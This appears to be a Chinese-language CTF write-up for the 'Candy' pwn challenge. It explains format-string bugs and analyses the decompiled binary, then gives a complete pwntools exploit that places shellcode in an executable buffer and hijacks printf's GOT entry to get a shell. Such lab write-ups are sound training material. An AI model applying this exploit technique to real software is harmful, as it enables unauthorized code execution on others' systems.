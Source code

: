 # Candy

- 作者：pn1fg
- 参考：-
- 难度：Baby/Trivial/Easy/Normal/Medium/Hard/Expert/Insane
- 分类：Pwn
- 镜像：[svuctf-winter-2023/babyrop](https://ghcr.io/svuctf/svuctf-winter-2023/babyrop)
- 端口：70

## 题目描述

## 题目解析

- 源码：[main.c](/build/main.c)
- 考点：格式化字符串，GOT 劫持，shellcode

格式化字符串函数是根据格式化字符串来进行解析的 。**那么相应的要被解析的参数的个数也自然是由这个格式化字符串所控制**。比如说'%s'表明我们会输出一个字符串参数。

![](writeup/images/printf.png)

在进入 printf 之后，函数首先获取第一个参数，一个一个读取其字符会遇到两种情况

- 当前字符不是 %，直接输出到相应标准输出。 
- 当前字符是 %， 继续读取下一个字符 
- 如果没有字符，报错 
- 如果下一个字符是 %, 输出 % 
- 否则根据相应的字符，获取相应的参数，对其进行解析并输出 

那么假设，此时我们在编写程序时候，写成了下面的样子

```c++
printf("Color %s, Number %d, Float %4.2f");
```
此时我们可以发现我们并没有提供参数，那么程序会如何运行呢？程序照样会运行，会将栈上存储格式化字符串地址上面的三个变量分别解析为
- 1.解析其地址对应的字符串 
- 2.解析其内容对应的整形值 
- 3.解析其内容对应的浮点值

这基本就是格式化字符串漏洞的基本原理了。

### 查看文件信息
查看文件类型（`file` 命令）：
```shell
$ file pwn
pwn: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0059aa9c4a34393d23601ab109b1b940e1a6424e, for GNU/Linux 4.4.0, not stripped
```
这是一个64位 ELF 文件（`ELF 64-bit LSB executable`），动态链接（`dynamically linked`），没有去除符号（`not stripped`）

检查文件保护机制（`checksec`命令）：
```shell
$ checksec pwn
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
### 分析漏洞成因

反编译 `main` 函数：
```c++
ulong main(void)

{
    sym.init();
    sym.banner();
    sym.vuln();
    return 0;
}
```
反编译 `init` 函数：
```c++
void sym.init(void)

{
    sym.imp.setvbuf(_reloc.stdin, 0, 2, 0);
    sym.imp.setvbuf(_reloc.stdout, 0, 2, 0);
    sym.imp.setvbuf(_reloc.stderr, 0, 2, 0);
    sym.imp.mprotect(reloc.puts, 0x1000, 7);
    return;
}
```
`mprotect` 函数原型
```c++  
int mprotect(const void *start, size_t len, int prot);
```
`mprotect()` 函数把自 start 开始的、长度为 len 的内存区的保护属性修改为 prot 指定的值。这里的 prot 为7，所以这一块内存区则**可读可写可执行**

反编译 `vuln` 函数：
```c++
void sym.vuln(void)

{
    ulong format;
    ulong var_4h;

    sym.imp.puts("Input your favorite candy:");
    while( true ) {
        sym.menu();
        sym.imp.__isoc99_scanf(0x402423, &var_4h);
        if (var_4h == 3) {
            sym.imp.puts("There is no Unique Human Adventured");
            return;
        }
        if (3 < var_4h) break;
        if (var_4h == 1) {
            sym.imp.read(0, obj.name, 0x100);
        }
        else {
            if (var_4h != 2) break;
            sym.imp.puts("There\'s a candy voucher in the flag!");
            sym.imp.memset(&format, 0, 0x100);
            sym.imp.read(0, &format, 0x100);
            sym.imp.printf(&format);
        }
    }
    sym.imp.puts("Don\'t you like all of them?");
    return;
}
```
分析一下 `vuln` 函数的逻辑，最外层 `while` 循环，然后输入一个整形值，接下来 `if` 条件判断，当输入的值为 `1` 时，调用 `read` 函数向 `obj.name` 中读入 0x100 字符串，`obj.name` 位于`bss`段上，有可执行权限，当输入的值为 `2` 时，执行的分支语句为：

```c++
sym.imp.puts("There\'s a candy voucher in the flag!");
sym.imp.memset(&format, 0, 0x100);
sym.imp.read(0, &format, 0x100);
sym.imp.printf(&format);
```
这里有很明显的格式化字符串漏洞，可以修改任意地址

这题我们的利用思路如下：

- 在 `obj.name` 处填入 shellcode 
- 利用格式化字符串漏洞劫持 GOT 表，修改 `printf` 处地址为 `obj.name` 地址即可执行 shellcode，获取 shell

### 编写利用程序
[exp.py](writeup/exp.py)
```python
from pwn import *

context.arch = "amd64"
context.log_level = "debug"

if args['REMOTE']:
    io = remote('IP',port)
else:
    io = process("./candy")

elf = ELF("./candy")

def exec_fmt(pad):
    io = process("./candy")
    io.sendline(b"2")
    io.send(pad)
    info = io.recv()
    io.close()
    return info

fmt = FmtStr(exec_fmt)
offset = fmt.offset
print("offset ===> ", offset)

pad = fmtstr_payload(offset, {elf.got["printf"]: elf.sym["name"]})

io.sendlineafter(b"Command:", b"1")
io.send(asm(shellcraft.sh()))

io.sendlineafter(b"Command:", b"2")
io.sendlineafter(b"flag!\n", pad)

io.interactive()
```